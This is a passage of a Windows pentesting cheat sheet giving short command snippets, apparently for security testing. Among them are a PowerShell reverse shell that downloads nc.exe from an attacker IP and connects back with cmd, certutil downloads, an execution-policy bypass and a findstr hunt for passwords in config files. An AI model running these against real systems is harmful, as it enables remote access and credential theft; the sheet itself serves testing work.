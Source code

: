 download file

```
certutil -f -urlcache <URL> <local filename>
powershell -Command "Invoke-WebRequest '<URL>' -OutFile <filename>"
powershell -Command "Invoke-WebRequest \"<URL>\" -OutFile <filename>"
```

get file hash

```
certutil -hashfile <file> MD5
```

find files containing specific text

```cmd
findstr /si password C:\*.xml C:\*.ini C:\*.txt C:\*.config C:\*.conf
```

### :open_file_folder: PowerShell

bypass

```powershell
C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -ep bypass C:\Windows\Temp\xxx.ps1
```

zip

```powershell
Compress-Archive -Path C:\Users\guest\Desktop\dist -DestinationPath C:\Users\guest\Desktop\dist
```

unzip

```powershell
Expand-Archive -LiteralPath C:\Users\guest\Desktop\dist.zip -DestinationPath C:\Users\guest\Desktop
```

reverse shell

```powershell
powershell -c "IEX(New-Object System.Net.WebClient).DownloadFile('http://192.168.0.100/nc.exe', 'C:\users\XXX\desktop\nc.exe');C:\users\XXX\desktop\nc.exe 192.168.0.100 80 -e cmd"
```

find specific files

```powershell
Get-ChildItem -Path "C:\Folder" -Recurse -Force -Filter "*.txt"
Get-ChildItem -Path "C:\Folder" -Recurse -Force -Include "*.txt","*.zip","*.conf"
```

### :open_file_folder: Firefox

disable search in address bar function, easier to test

```
type in searchBar "about:config"
Accept warning
Search "keyword.enabled" and change it to false
```

modify header tool (or Burp Suite)

https://addons.mozilla.org/en-US/firefox/addon/simple-modify-header/

### :open_file_folder: others

```
C:\Windows\SysWOW64
C:\Windows\System32
C:\Windows\System32\drivers\etc\hosts
```


